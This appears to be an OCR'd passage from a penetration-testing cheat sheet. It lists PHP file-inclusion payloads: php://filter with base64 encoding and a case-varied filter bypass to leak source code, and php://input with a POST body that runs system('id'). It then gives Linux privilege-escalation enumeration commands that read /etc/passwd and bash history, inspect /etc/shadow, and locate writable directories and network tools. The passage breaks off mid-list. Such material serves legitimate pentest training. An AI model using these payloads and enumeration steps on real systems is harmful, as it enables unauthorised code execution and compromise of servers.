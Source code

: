 php://filter

1 http://url/index.php?page=php://filter/convert.base64-encode/resource=index
2 http://url/index.php?page=pHp://FilTer/convert.base64-encode/resource=index

input://

1 http://url/index.php?page=php://input
2 POST DATA: <?php system('id'); ?>

Linux Privilege Escalation
OS & User Enumeration :

1 ############################### User Enumeration ##########################
2
3 whoami
4 id
5 sudo -l
6 cat /etc/passwd
7 ls -la /etc/shadow
8
9 ################################# OS Enumeration ##########################
10
11 cat /etc/issue
12 cat /etc/*-release
13 cat /proc/version
14 uname -a
15 arch
16 ldd --verion
17
18 ################################# Installed tools #########################
19
20 which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp
21
22 ############################ File owners and permissions ##################
23
24 ls -la
25 find . -ls
26 history
27 cat ~/.bash_history
28 find / -type f -user <username> -readable 2> /dev/null # Readable files for
29 find / -writable -type d 2>/dev/null # Writable files by the user
30 find /usr/local/ -type d -writable
31
32 ################################## File mount #############################
33
34 /mnt /media -> usb devices and other mounted disks
35 mount -> show all the mounted drives
36 df -h -> list all partitions
37 cat /etc/fstab # list all drives mounted at boot time
38 /bin/lsblk
39
40 #################################### Applications #########################
41
42 dpkg -l # for Debian based systems
43
